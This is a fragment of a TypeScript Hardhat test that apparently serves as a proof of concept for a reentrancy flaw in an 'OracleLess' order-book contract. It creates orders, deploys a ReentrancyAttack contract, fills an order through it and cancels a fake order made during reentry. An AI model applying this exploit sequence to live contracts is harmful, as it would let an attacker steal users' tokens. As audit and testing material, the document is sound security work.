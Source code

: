 ```ts
            await s.USDC.getAddress(),
            s.wethAmount,
            minAmountOut,
            await s.Alice.getAddress(),
            25,
            false,
            "0x"
        )
        const filter = s.OracleLess.filters.OrderCreated
        const events = await s.OracleLess.queryFilter(filter, -1)
        const event = events[0].args
        expect(Number(event[0])).to.not.eq(0, "New order")
        orderId = (event[0])

        // Attacker creates another small order; there must be some order to get cancelled during the attack
        await s.OracleLess.connect(s.Alice).createOrder(
            await s.WETH.getAddress(),
            await s.USDC.getAddress(),
            1n,
            1n,
            await s.Alice.getAddress(),
            25,
            false,
            "0x"
        )

        const pendingOrders = await s.OracleLess.getPendingOrders()
        const order = pendingOrders[0];

        // create attack contract 
        s.Attack = await DeployContract(new ReentrancyAttack__factory(s.Alice), s.Alice, s.router02)

        const uniTxData = await generateUniTxData(
            s.WETH,
            await s.USDC.getAddress(),
            order.amountIn,
            s.router02,
            s.UniPool,
            await s.Attack.getAddress(),
            order.minAmountOut
        )

        // prepare the attack contract
        await s.WETH.connect(s.Alice).approve(await s.Attack.getAddress(), order.amountIn)
        await s.Attack.connect(s.Alice).prepareAttack(0n,
                                                      orderId,
                                                      order.tokenIn,
                                                      order.tokenOut,
                                                      order.amountIn,
                                                      order.minAmountOut,
                                                      uniTxData);


        // do the attack
        const attackTxData = (await s.Attack.fillOrder.populateTransaction()).data
        await s.OracleLess.connect(s.Alice).fillOrder(
            0n, orderId, await s.Attack.getAddress(), attackTxData)
        
        // cancel the fake order created during reentrancy
        await s.Attack.connect(s.Alice).finishAttack()

```